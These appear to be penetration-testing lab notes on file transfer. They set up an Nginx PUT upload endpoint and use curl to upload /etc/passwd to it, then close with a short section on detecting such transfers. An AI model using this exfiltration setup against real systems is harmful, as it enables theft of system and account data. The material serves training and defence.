 ```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
#  Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File `/etc/nginx/sites-available/upload.conf`

server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/ 
# Start Nginx
sudo systemctl restart nginx.service
```

> If we get any error messages, check `/var/log/nginx/error.log`. If using Pwnbox, we will see port 80 is already in use.

```bash
# Verifying Errors
tail -2 /var/log/nginx/error.log #=> (`ddress already in use`)
ss -lnpt | grep 80 #=>  .0.0.0:80        0.0.0.0:*    users:(("python",pid=`2811`,fd=3)
ps -ef | grep 2811 #=>  python -m websockify 80 localhost:5901 -D

# We see there is already a module listening on port 80
# To get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default

```

### Upload File Using cURL

```bash
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
#check the uploaded file:
udo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 
```


  
# Detection

Detection based on command-line blacklisting is easy to evade using techniques like case obfuscation, while whitelisting, though initially time-consuming, offers stronger and faster anomaly detection. HTTP protocols rely on client-server negotiation, with user agent strings helping servers identify clients such as browsers or tools like cURL and sqlmap. These strings are not limited to browsers and can be used by scripts or automated tools, making them useful indicators in traffic analysis. Organizations can improve detection by compiling lists of known legitimate user agents and using them in SIEM tools to isolate suspicious activity for investigation.
